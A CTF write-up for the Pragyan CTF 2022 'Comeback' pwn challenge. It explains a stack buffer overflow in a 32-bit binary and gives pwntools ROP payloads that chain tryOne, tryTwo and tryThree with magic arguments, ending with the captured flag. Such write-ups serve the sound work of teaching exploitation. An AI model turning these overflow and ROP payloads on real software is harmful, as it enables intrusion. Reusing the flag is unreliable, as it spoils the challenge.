








# Pragyan CTF 2022 - Comeback

Origin challenge link: https://ctf.pragyan.org/

You can also download challenge file in my repo: [comeback.zip](comeback.zip)

There will be 2 files in zip:
- vuln
- libvuln.so

Download and extract file, then use `patchelf` to get the libc of `vuln`:

```
$ patchelf --print-needed vuln
./libvuln.so
libc.so.6
```

We can see that the libc is already included in `vuln`. So now, let's start!

# 1. Find bug

First, we use `file` to check for basic information:

```
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab8859ed41701faf63db022982c9ad5b4e32ef98, for GNU/Linux 3.2.0, not stripped

$ file libvuln.so
libvuln.so: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, BuildID[sha1]=0d3c1de134716c37b6cae35304cc0a31eb0f6a84, not stripped
```

So the file `vuln` is an 32-bit executable file without begin stripped and the file `libvuln.so` is a shared object without being stripped too. Next, we will use checksec to check for all the defences of `vuln`:

```
$checksec vuln
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  './'
```

Just `NX enabled` is on. Finally, let's use ghidra to decompile the file `vuln` to get a better look about the program. At first, the program runs in main() but nothing interesting. Next, it jumps to new_main(), which seems interesting:



The variable is defined with size of 44 but we can read up to 0x200 bytes --> **Buffer Overflow**.

And we can notice that there is a function called sysfuncs():



In sysfuncs(), it executes 3 weird function named tryOne(), tryTwo(), tryThree() which we cannot find in `vuln`, but maybe in `libvuln.so` will contain these function. Let's decompile the `libvuln.so` to see that.

We can see exactly those 3 function in `libvuln.so` but with just decompile, it's hard for us to get it. Let's make program to run the those function one by one from tryOne() to tryThree() from sysfuncs() to get to know more clearly about those function:

```
payload = cyclic(52)                         # Padding to eip
payload += p32(exe.sym['sysfuncs'] + 59)     # 
p.sendafter(b'All the Best :)', payload)
```

With sysfuncs() + 59 will be this code:

```
   0x08049291 <+59>:	push   0x6
   0x08049293 <+61>:	push   0x5
   0x08049295 <+63>:	push   0x4
   0x08049297 <+65>:	call   0x8049130 <tryOne@plt>
```

Run it and debug with GDB, when we jumped into tryOne() function we can see that it first execute this:

```
sprintf(p1, "%p", 4)
```

Which will write `0x4` to `p1`, a global variable:

```
gef➤  x/xw &p1
0xf7f3d078 <p1>:	0x00347830

gef➤  x/xw &p2
0xf7f3d06c <p2>:	0x00000000

gef➤  x/xw &p3
0xf7f3d084 <p3>:	0x00000000

gef➤  x/xw &p4
No symbol table is loaded.  Use the "file" command.
```

We can also see that there are p2 and p3 not just p1. Next, the function tryOne() will continue execute these function:

```
sprintf(p2, "%p", 5)
sprintf(p3, "%p", 6)
```

Do you know where is the number 4, 5 and 6 which is passed to sprintf()? That's the number it gets from those 3 push before we jump into tryOne() of the `sysfuncs() + 59`.

After those 3 command sprintf(), it then take the global variable `check_p1` to `__encrypt` function:

```
gef➤  x/3xw &check_p1
0xf7f3d040 <check_p1>:	0x4f512c03	0x55453e48	0x00005027

gef➤  x/3xw &check_p2
0xf7f3d04c <check_p2>:	0x1a532c03	0x51443e19	0x00005324

gef➤  x/3xw &check_p3
0xf7f3d058 <check_p3>:	0x1a512c03	0x51413e19	0x00005321

gef➤  x/3xw &check_p4
No symbol table is loaded.  Use the "file" command.
```

As we can expect that there are just 3 check corresponding to 3 var `p1`, `p2` and `p3`. We know that 3 var `p1`, `p2` and `p3` takes value from sprintf() but 3 var check `check_p1`, `check_p2` and `check_p3` we cannot see where it take the value from. 

With different run we see that it still the same and it contains value at the begining so we cannot change those 3 check var. So let's see next, it goes to the function strcmp() which compare the `p1` with the `check_p1` after `__encrypt`:



We can see that it compares the string `0x4` (take from argument) with string `0xdeadbeef` (we cannot change that). So if we pass argument with number of `0xdeadbeef` in hex, then if will be the same string `0xdeadbeef` after sprintf() with `%p`. We will continue checking these 2 strcmp() after the first one.

Stop at:

```
 → 0xf7f3a401 <tryOne+164>     jne    0xf7f3a45b <tryOne+254>	TAKEN [Reason: !Z]
```

And type:

```
flags +zero
```

And we can bypass this check to go to the second check:



And we can see that it now compares string `0x5` with `0xf00dcafe` and we can also satisfy this.

Continue checking and we got this:



It finally compares string `0x6` with `0xd00dface` and we can also satisfy this.

Finally after 3 check is satisfy, it set the global variable `set` to 1:



And it will do the same with tryTwo() and tryThree(). So we will move on the next part: Brainstorming!

# 2. Brainstorming

With the tryThree(), if all the check are satisfy included all 3 argument are correct and `set` equal to 2 (which require us to execute tryTwo() first), we can get the flag. So the aim is to execute tryOne() then tryTwo() and finally is tryThree()

P/s: When making writeup, I realize that we can also use ret2libc to spawn shell then read flag.

- Summary:
   1. Execute tryOne()
   1. Execute tryTwo()
   1. Execute tryThree()

# 3. Exploit

### Stage 1: Execute tryOne()

As we know that the program first push argument on stack, then **call** function tryOne() (`call` will place the return address on stack already). The stack will look like this when it jump to the begining of tryOne():

```
0xffe46100│+0x0000: 0x0804929c    <-- Return address
0xffe46104│+0x0004: 0x00000004    <-- Argument 1
0xffe46108│+0x0008: 0x00000005    <-- Argument 2
0xffe4610c│+0x000c: 0x00000006    <-- Argument 3
```

so our first payload will look like this:

```
payload = cyclic(52)
payload += flat(exe.sym['tryOne'])
payload += flat(exe.sym['main'])     # Return address
payload += p32(0xdeadbeef)           # Argument 1
payload += p32(0xf00dcafe)           # Argument 2
payload += p32(0xd00dface)           # Argument 3
p.sendafter(b'All the Best :)', payload)
```

We will want it return to main so that we can input again to execute tryTwo(). And because the var `set` is global so if we finished the function tryOne(), it still remains the same.

And after it execute successfully, we can see that it print out the string `Nice Try` and wait for out input:



So let's move on stage 2: Execute tryTwo()

### Stage 2: Execute tryTwo()

We still debug with GDB to check which string will be check first and we have this payload (just stop at strcmp() and you will get that):

```
payload = cyclic(52)
payload += flat(exe.sym['tryTwo'])
payload += flat(exe.sym['main'])
payload += p32(0xf00dcafe)
payload += p32(0xd00dface)
payload += p32(0xdeadbeef)
p.sendafter(b'All the Best :)', payload)
```

### Stage 3: Execute tryThree()

And the stage 3 is just the same:

```
payload = cyclic(52)
payload += flat(exe.sym['tryThree'])
payload += flat(exe.sym['main'])
payload += p32(0xd00dface)
payload += p32(0xdeadbeef)
payload += p32(0xf00dcafe)
p.sendafter(b'All the Best :)', payload)
```

Full code: [solve.py](solve.py)

# 4. Get flag



Flag is `p_ctf{y3s_1t_w4s_a_R0p_4gh2e7c0}`